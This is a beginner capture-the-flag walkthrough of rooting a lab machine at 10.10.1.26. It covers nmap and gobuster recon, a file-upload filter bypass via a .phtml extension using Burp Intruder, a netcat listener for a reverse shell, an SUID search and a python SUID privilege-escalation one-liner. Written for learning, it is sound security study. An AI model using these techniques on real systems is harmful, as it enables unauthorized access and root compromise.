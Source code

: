 "A ctf for beginners, can you root me?"

Target IP: 10.10.1.26

-----------------
# Task 2
Lets take a look at the tasks:
```
Scan the machine, how many ports are open?

What version of Apache is running?

What service is running on port 22?

Find directories on the web server using the GoBuster tool.  

What is the hidden directory?
```

Okay, so let's start our basic recon
first off with a standard "aggressive" **NMAP** using: `nmap -A -T4 10.10.1.26`

![](../attachments/ea0951982dbb7e6174934e0fe4120ffc.png)

hmm this should already answer our first 3 questions:
We got 2 ports open, port 80 is running Apache/2.4.29 and port 22 is running an **SSH** service.

now we'll run a standard **gobuster** with a default wordlist in `dir` mode
`gobuster dir -u 10.10.1.26 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

![](../attachments/5f3cad0e6b72d2557c09d6f18187e915.png)

and we found something already, `/panel`

---
# Task 3
here they want to have us read a file on the target, so we'll need shell access.
we'll launch burpsuite and its attached browser to check out the URL we found earlier.

Attempting to upload a php shell didnt seem to work
![](../attachments/a3022e0b1b96263ae3dbd3c40ad31ec6.png)

Lets try some other file extensions first by adding the post request for this to the BurpSuite Intruder.

![](../attachments/3ef71301e2cf55fa8972e43e43a1f310.png)


Here we set the filename extension as a variable
![](../attachments/dbeaa82e8b63799c176d0205e462a67e.png)

And for payloads we'll try some common php alternative extensions

![](../attachments/8697f85ebd435aaafe3eecdb180ec847.png)


Results seem to say it was a success! and we can see the URL where it is available now!:
(I am certain there is a easier way to check success but still gotta learn a lot myself :p )

![](../attachments/5c97401deb1efe20e9a03a97d9fb4c69.png)

Before we open that we should set up our netcat to listen for connections
`nc -nlvp 1235`
![](../attachments/a4e721c6251aca6b5cb8005081fae710.png)

and after opening the file through the browser we got our shell!
(I had to use the `.phtml` to get a successful connection, the other ones despite being on the server would not execute the shell properly)
![](../attachments/b578a693f1c7743a2c3d696c0ef18371.png)

With our connection lets start looking for this file lazily
`file -name user.txt -print 2>/dev/null` 
( sidenote, the `2>/dev/null` is simply to hide all the "permission denied" files etc.)
and we found it in `/var/www/user.txt` !

![](../attachments/abeffad0369f801be1ae3fc8372563cf.png)

I wont show the flag here, but you can simply read it with `cat`

Next up we will try to escalate our shell by finding files with SUID perms:
`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

![](../attachments/f278d8d2c13f6c6c1b07a01bfcba0cf3.png)

Python for sure stands out here..
Lets see what GTFOBins says about python with SUID 
( https://gtfobins.github.io/gtfobins/python/#suid )

We learn that we can run a shell and keep privileges by simply running 
`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](../attachments/68b8e0dad09183455dd0730167575063.png)

after this simply navigate to the root folder and get our final flag!
